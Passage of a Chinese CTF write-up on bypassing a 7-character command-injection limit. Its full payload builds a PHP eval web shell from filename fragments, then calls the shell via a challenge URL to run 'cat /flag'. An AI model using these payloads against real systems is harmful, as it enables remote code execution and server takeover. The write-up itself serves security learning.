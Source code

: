 ![20220805173355](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220805173355.png)


网上搜了一下发现一篇利用方法, 刚好也是7个字符

[https://blog.csdn.net/nzjdsds/article/details/102873187](https://blog.csdn.net/nzjdsds/article/details/102873187)

原理也很简单, 就是按照顺序利用 `>xx` 写文件名 (重定向符写入, 文件内容为空), 然后利用 `ls -t` 按时间顺序列表, 最后写进一个文件里利用 `sh` 执行

因为 Linux 的特性, `\` 表示命令输入没有结束, 会在下一行继续输入, 而 Linux 的文件名比较自由, 因此我们可以逐步将一个命令分散到多个文件之中, 然后配合上述方法执行

payload

```bash
echo PD9waHAgZXZhbCgkX0dFVFsxXSk7|base64 -d>1.php
```

写入

```bash
>hp
>1.ph\\
>d\>\\
>\ -\\
>e64\\
>bas\\
>7\|\\
>XSk\\
>Fsx\\
>dFV\\
>kX0\\
>bCg\\
>XZh\\
>AgZ\\
>waH\\
>PD9\\
>o\ \\
>ech\\
ls -t>0
sh 0
```

查看 flag

`http://f8e84766-7989-44db-8b32-a500d08a2ce0.challenge.ctf.show//api/1.php?1=system('cat /flag');`

补一下官方 wp 的做法, 觉得挺有意思的

原因在于 PHP 对文件上传的处理

参考文章 [https://blog.csdn.net/qq_36078992/article/details/124301392](https://blog.csdn.net/qq_36078992/article/details/124301392)

只要 POST 包中存在文件内容, PHP 都会把文件存储到缓存文件夹中 (默认是 /tmp), 在请求结束的时候文件会被删除

但是这里我们可以尝试将命令执行和文件上传的操作弄进一个请求里面, 保证了在命令执行时缓存文件不会被删除

命令执行的 payload, 刚好7个字符
